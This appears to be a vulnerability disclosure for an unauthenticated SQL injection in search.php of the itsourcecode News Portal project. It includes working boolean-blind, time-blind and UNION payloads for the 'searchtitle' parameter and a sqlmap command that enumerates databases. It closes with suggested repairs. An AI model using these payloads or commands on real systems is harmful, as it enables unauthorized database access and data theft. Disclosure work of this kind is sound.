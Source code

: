 # Itsourcecode News Portal Project in PHP Free Download 1.0 search.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ News Portal Project in PHP Free Download
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/news-portal-project-php-free-download/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ search.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2019/02/News-Portal.zip
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'search.php' file of the 'News Portal Project in PHP Free Download' project. The reason for this issue is that attackers inject malicious code from the parameter "searchtitle" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ During the security review of "News Portal Project in PHP Free Download", N3xu5Cr4ck37 discovered a critical SQL injection vulnerability in the "search.php" file. This vulnerability stems from insufficient user input validation of the 'searchtitle' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type: 
+ boolean-based blind
+ time-based blind
+ UNION query
## Vulnerability location:
+ 'searchtitle' parameter 
## Payload: 
```sql
    searchtitle=-9316' OR 6023=6023-- AadK

    searchtitle=111111111111' AND (SELECT 9951 FROM (SELECT(SLEEP(5)))iYDj)-- Gwvj

    searchtitle=111111111111' UNION ALL SELECT NULL,CONCAT(0x717a6b6a71,0x79545450594a584c6f45664661544878734c6645765a587778545a56434e614647726d557a444c4a,0x71627a7671),NULL,NULL,NULL,NULL,NULL-- -
``` 
```makefile
    Parameter: searchtitle (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: searchtitle=-9316' OR 6023=6023-- AadK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchtitle=111111111111' AND (SELECT 9951 FROM (SELECT(SLEEP(5)))iYDj)-- Gwvj

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: searchtitle=111111111111' UNION ALL SELECT NULL,CONCAT(0x717a6b6a71,0x79545450594a584c6f45664661544878734c6645765a587778545a56434e614647726d557a444c4a,0x71627a7671),NULL,NULL,NULL,NULL,NULL-- -
```
+ ![1](https://github.com/user-attachments/assets/00e51c1f-996e-4470-b106-afca907104f1)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
    python sqlmap.py -u "http://localhost:8108/search.php" --data "searchtitle=111111111111" --method POST --batch --risk=3 --level=5 --dbms=mysql --threads=10 --dbs
```
+ ![2](https://github.com/user-attachments/assets/0796c236-f4cb-4806-aad7-25add2b20a19)
# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
